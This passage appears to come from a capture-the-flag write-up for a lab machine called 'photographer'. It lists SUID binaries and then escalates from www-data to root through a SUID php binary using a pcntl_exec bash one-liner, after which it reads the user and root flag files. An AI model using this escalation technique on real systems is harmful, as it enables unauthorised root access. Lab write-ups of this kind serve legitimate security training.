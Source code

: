 ```Console
/usr/lib/openssh/ssh-keysign
/usr/lib/x86_64-linux-gnu/oxide-qt/chrome-sandbox
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/sbin/pppd
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/php7.2
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/chfn
/bin/ping
/bin/fusermount
/bin/mount
/bin/ping6
/bin/umount
/bin/su
```
Can escalates privileges with php:
```Console
www-data@photographer:/$ php -r "pcntl_exec('/bin/bash', ['-p']);"
bash-4.3# cat /home/daisa/user.txt 
d41d8cd98f00b204e9800998ecf8427e
bash-4.3# whoami
root
bash-4.3# cat /root/proof.txt 
                                                                   
                                .:/://::::///:-`                                
                            -/++:+`:--:o:  oo.-/+/:`                            
                         -++-.`o++s-y:/s: `sh:hy`:-/+:`                         
                       :o:``oyo/o`. `      ```/-so:+--+/`                       
                     -o:-`yh//.                 `./ys/-.o/                      
                    ++.-ys/:/y-                  /s-:/+/:/o`                    
                   o/ :yo-:hNN                   .MNs./+o--s`                   
                  ++ soh-/mMMN--.`            `.-/MMMd-o:+ -s                   
                 .y  /++:NMMMy-.``            ``-:hMMMmoss: +/                  
                 s-     hMMMN` shyo+:.    -/+syd+ :MMMMo     h                  
                 h     `MMMMMy./MMMMMd:  +mMMMMN--dMMMMd     s.                 
                 y     `MMMMMMd`/hdh+..+/.-ohdy--mMMMMMm     +-                 
                 h      dMMMMd:````  `mmNh   ```./NMMMMs     o.                 
                 y.     /MMMMNmmmmd/ `s-:o  sdmmmmMMMMN.     h`                 
                 :o      sMMMMMMMMs.        -hMMMMMMMM/     :o                  
                  s:     `sMMMMMMMo - . `. . hMMMMMMN+     `y`                  
                  `s-      +mMMMMMNhd+h/+h+dhMMMMMMd:     `s-                   
                   `s:    --.sNMMMMMMMMMMMMMMMMMMmo/.    -s.                    
                     /o.`ohd:`.odNMMMMMMMMMMMMNh+.:os/ `/o`                     
                      .++-`+y+/:`/ssdmmNNmNds+-/o-hh:-/o-                       
                        ./+:`:yh:dso/.+-++++ss+h++.:++-                         
                           -/+/-:-/y+/d:yh-o:+--/+/:`                           
                              `-///////////////:`                               
                                                                                

Follow me at: http://v1n1v131r4.com


d41d8cd98f00b204e9800998ecf8427e

```

